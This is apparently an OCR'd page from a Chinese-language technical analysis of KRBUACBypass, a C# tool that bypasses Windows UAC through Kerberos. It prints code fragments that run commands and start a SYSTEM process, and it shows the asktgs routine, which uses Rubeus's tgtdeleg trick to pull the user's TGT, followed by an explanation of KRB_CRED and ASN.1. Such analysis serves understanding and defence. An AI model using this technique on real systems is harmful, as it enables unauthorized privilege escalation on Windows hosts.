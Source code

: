 ```c#
        {
            // display tickets with the "Full" format
            LSA.DisplaySessionCreds(sessionCreds, LSA.TicketDisplayFormat.Klist);
            try
            {
                KrbSCM.Execute(command);
            }
            catch { }
            return;
        }
        else
        {
            Console.WriteLine("[-] Please request a HOST service ticket for the current user first.");
            Console.WriteLine("[-] Please execute: KRBUACBypass.exe asktgs.");
            return;
        }
    }

    if (method == "system")
    {
        try
        {
            KrbSCM.RunSystemProcess(Convert.ToInt32(args[1]));
        }
        catch { }
        return;
    }
}
```

### Asktgs

Asktgs 功能首先调用 Rubeus 提供的 `LSA.RequestFakeDelegTicket()` 方法执行 tgtdeleg 技巧，并将返回的用户 TGT 以 byte 类型保存在 `blah` 中，如下所示。

```c#
if(method == "asktgs")
{
    // Execute the tgtdeleg trick
    byte[] blah = LSA.RequestFakeDelegTicket();
    KRB_CRED kirbi = new KRB_CRED(blah);
    Ask.TGS(kirbi, service, requestEType, outfile, ptt, domainController);
}
```

然后将 blah 中的内容根据 ASN.1 编码规则初始化为 KRB\_CRED 类型。有了 KRB\_CRED 类型的 TGT 后，我们就可以添加或修改 TGT 中的元素了。

> Kerberos 协议在其文档 “[*\[RFC4120\] The Kerberos Network Authentication Service (V5)*](https://www.ietf.org/rfc/rfc4120.txt)” 中以抽象语法标记（Abstract Syntax Notation One，ASN.1）的形式进行定义，ASN.1 提供了一种语法来指定协议消息的抽象布局及其编码方式。Kerberos 协议消息的编码应遵守 \[X690\] 中描述的 ASN.1 的可分辨编码规则（DER）。

KRB\_CRED 结构是将 Kerberos 凭据从一个主体发送到另一个主体的消息格式。KRB\_CRED 消息包含一系列要发送的票证和使用票证所需的信息，包括每个票证的会话密钥。Kerberos 协议中的 KRB\_CRED 结构应采用以下形式的 ASN.1 模块定义：
